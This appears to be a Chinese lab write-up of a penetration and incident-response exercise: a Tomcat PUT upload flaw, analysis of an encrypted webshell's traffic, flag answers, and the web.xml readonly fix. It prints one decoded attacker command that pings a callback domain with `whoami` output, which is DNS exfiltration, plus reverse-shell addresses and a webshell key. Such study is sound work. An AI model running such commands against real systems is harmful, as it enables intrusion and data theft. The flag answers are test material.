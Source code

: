 ```yaml
---
UID: 20250607114602
aliases: 
tags:
  - 打靶
  - 靶场
  - 渗透
  - 应急响应
source: 
cssclasses: 
created: 2025-06-07
---
```


![image.png](https://s2.loli.net/2025/06/07/8QrFgBoCjwOyM1H.png)
[[某变异Webshell流量分析]]
## 渗透

### 扫描
![image.png](https://s2.loli.net/2025/06/07/HzFwZaWqNpxReQk.png)

fscan 扫描发现有个 8081 的 tomcat。有可能文件任意上传漏洞


### 搜索漏洞
![image.png](https://s2.loli.net/2025/06/07/MmC3AteuUHY9gX2.png)


### 漏洞利用
![image.png](https://s2.loli.net/2025/06/07/wBfuxcEHQrah1JR.png)

利用成功
![image.png](https://s2.loli.net/2025/06/07/S3sMTG1QmnWwbly.png)


上传一个反弹 shell
![image.png](https://s2.loli.net/2025/06/07/12Q5lTyZxgfndcm.png)

## 第一问
![image.png](https://s2.loli.net/2025/06/07/x5VURNjTkGd3AOm.png)

从 wireshark 报文能看出是上传 hello. jsp

flag{hello. jsp}

## 第二问
![image.png](https://s2.loli.net/2025/06/07/85SNHURLIOeotYB.png)

查看 post 包中，能找到密码

## 分析
要对木马进行分析

木马的大致功能是通过加载字节码来执行恶意代码，整个webshell的核心部分逻辑是在字节码中。

## 第三问
在查看 put 包的攻击者上传的马，用了 base 64 解码和 gunzip。找到了秘钥
![image.png](https://s2.loli.net/2025/06/07/9cCNxF4VnZGk8QI.png)


```
oszXCfTeXHpIkMS3
```

![image.png](https://s2.loli.net/2025/06/07/CAQNBbqXeLURFjz.png)

对木马进行分析，里面还有一端加密语法，继续拉到蓝队工具箱进行

也能找到

查看木马能知道。木马是对值进行了 base 64 加密，aes 加密最后加了个 gunzip
## 第四问和第五问
找到 hello. jsp 的木马的 post 包。按照顺序依次解码
![image.png](https://s2.loli.net/2025/06/07/FKd4UZHyc21EwqG.png)

```
ping -c 1 `whoami`.d5454c8975.ipv6.1433.eu.org.
flag{ping -c 1 `whoami`.d5454c8975.ipv6.1433.eu.org.}
回显域名也在此
flag{d5454c8975.ipv6.1433.eu.org.}
d5454c8975.ipv6.1433.eu.org.
```

## 第六问
在最后一个木马的包中发现
![image.png](https://s2.loli.net/2025/06/07/O5Ea2rtJC9NmhiM.png)


应该是反链了

![image.png](https://s2.loli.net/2025/06/07/WwbthTML3qei1xv.png)

没做，就是反链
```
	flag{192.168.31.190|2024}
```

## 第七问

发现后面的流量都是 tls 的加密流量。刚好前面解密发现攻击者用了 key. log。上机提取一下

使用 pytohn 服务器传给主机
![image.png](https://s2.loli.net/2025/06/07/jykD9RlvmsceTPf.png)


![image.png](https://s2.loli.net/2025/06/07/lbERQUKDBFCWtJo.png)

跟踪 tls 流，能找到命令

![image.png](https://s2.loli.net/2025/06/07/aqTCiOvNfbGBd1A.png)

```
flag{ls}
```


## 第八问
上机排查
![image.png](https://s2.loli.net/2025/06/07/aPRcn3WlT2kKbH9.png)



发现一个文件自动删除三个文件
![image.png](https://s2.loli.net/2025/06/07/CNzbAsFiZWY78uQ.png)

我们重点检查这三个文件

![image.png](https://s2.loli.net/2025/06/07/6VWTktC5BRmlbuS.png)

云沙箱检查一下

![image.png](https://s2.loli.net/2025/06/07/uQD7at9Lmj81OZb.png)

```
flag{10.10.13.37|4444}
```

## 第九问
涉及 ctf，暂时不做

## 第十问
漏洞修复

Tomcat的 `web.xml` 中​**​默认servlet的 `readonly` 参数被显式设为 `false` ​**​时，攻击者可利用HTTP PUT方法上传恶意JSP文件并执行任意代。改成 true 就能修复

```
    <servlet>  
        <servlet-name>default</servlet-name>  
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>  
        <init-param>  
            <param-name>debug</param-name>  
            <param-value>0</param-value>  
        </init-param>  
        <init-param>  
            <param-name>listings</param-name>  
            <param-value>true</param-value>  
        </init-param>  
<init-param><param-name>readonly</param-name><param-value>true</param-value></init-param>  
        <load-on-startup>1</load-on-startup>  
    </servlet>
```